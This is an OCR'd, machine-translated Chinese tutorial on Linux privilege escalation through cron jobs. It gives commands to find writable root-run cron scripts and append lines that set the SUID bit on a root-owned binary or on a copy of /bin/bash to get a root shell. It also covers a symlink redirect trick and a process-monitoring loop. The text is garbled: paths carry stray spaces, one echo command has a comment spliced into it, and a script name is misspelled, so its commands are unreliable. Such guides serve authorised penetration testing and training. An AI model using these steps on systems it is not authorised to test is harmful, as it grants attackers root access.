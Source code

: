例如，在这里我可以看到运行数据库备份脚本的ubuntu用户：

8月5日4:05:01 dev01 CRON [2128]：（ubuntu）CMD（/var/cronitor/database-backup.sh）

**使用**pspy****工具（****32****位为****pspy32****，****64****位为****pspy64**）。**

下载链接：https://github.com/DominicBreuker/pspy

**利用配置错误的**cronjob****获得****root**访问权限**

$ ls -la /etc/cron.d –输出cron.d中已经存在的cronjob

find / -perm -2 -type f 2> / dev / null –输出可写文件

ls -la /usr/local/sbin/cron-logrotate.sh –让我们确认cron-logrotate.sh是否可写。

### 我们知道cron-lograte.sh是可写的，它由logrotate cronjob运行。

那么我们在cron-lograte.sh中编写/附加的任何命令都将以“ root”身份执行。

我们在/ tmp目录中编写一个C文件并进行编译。

rootme可执行文件将生成一个shell。

```


```
`$ ls -la rootme –它告诉我们它是由用户'SHayslett'拥有的``$ echo“ chown root：root / tmp / rootme; chmod u + s /tmp/rootme;”>/usr/local/sbin/cron-logrotate.sh –这将更改可执行文件的所有者和组为root。它还将设置SUID位。$ ls -la rootme – 5分钟后，运行了logrotate cronjob，并以root特权执行了cron-logrotate.sh。$ ./rootme –生成一个root shell。`
```




```

### Cron脚本覆盖和符号链接

### 如果**可以修改**由root执行**的cron脚本**，则可以非常轻松地获取shell：

echo ‘cp /bin/bash /tmp/bash; chmod +s /tmp/bash’ > #Wait until it is executed/tmp/bash -p＃等待执行

/ tmp / bash -p

如果root用户执行的脚本使用**具有完全访问权限**的**目录**，则删除该文件夹并**创建一个符号链接文件夹到另一个**服务于您控制的脚本的**文件夹**可能会很有用。

ln -d -s < / PATH / TO / POINT > < / PATH / CREATE / FOLDER >

### 定时任务

可以监视进程以搜索每1,2或5分钟执行的进程。可以利用它并提升特权。

例如，要**在1分钟内每隔0.1s监视一次**，**按执行次数较少的命令排序**并删除一直执行的命令，可以执行以下操作：

for i in $(seq 1 610); do ps -e —format cmd >> /tmp/monprocs.tmp; sleep 0.1; done; sort /tmp/monprocs.tmp | uniq -c | grep -v “[“ | sed ‘/^.{200}./d’ | sort | grep -E -v “\s_[6-9][0-9][0-9]|\s_[0-9][0-9][0-9][0-9]”; rm /tmp/monprocs.tmp;
